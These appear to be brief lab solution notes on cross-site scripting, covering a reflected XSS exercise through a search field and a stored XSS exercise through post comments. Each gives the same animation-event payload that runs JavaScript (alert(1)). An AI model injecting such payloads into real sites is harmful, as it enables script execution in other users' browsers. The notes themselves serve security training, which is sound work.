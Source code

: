 # Cross-site Scripting

## Reflected XSS into HTML context with nothing encoded

In the search field paste this:

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
```

## Lab: Stored XSS into HTML context with nothing encoded

In the comments of a post:

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
```
